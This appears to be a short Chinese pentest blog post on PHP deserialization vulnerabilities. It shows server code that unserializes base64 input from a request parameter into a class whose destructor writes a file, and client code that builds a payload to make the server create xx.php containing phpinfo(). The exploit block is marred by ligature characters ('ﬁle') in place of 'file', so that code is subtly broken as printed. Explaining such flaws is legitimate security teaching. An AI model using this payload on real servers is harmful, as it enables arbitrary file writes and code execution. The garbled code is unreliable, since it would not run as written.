 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++

### 0x00 关于反序列化漏洞
序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  
若服务端有如下代码：
```php
<?php
    class foo{
        public $file = "test.txt";
        public $data = "123456";

        function __destruct(){
            file_put_contents($this->file,$this->data);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize(base64_decode($d));
    var_dump($tc);
?>
```
客户端可构造如下代码生成序列化后的字符串提交给服务端，  
服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
```php
<?php
    class foo {
        public $ﬁle = "test.txt";
        public $data = "123456";
        
        function __destruct() {
            ﬁle_put_contents($this->ﬁle, $this->data);
        }
    }

    $f = new foo();
    $f->ﬁle = "xx.php";
    $f->data = "<?php phpinfo(); ?>";
    echo base64_encode(serialize($f));
?>
```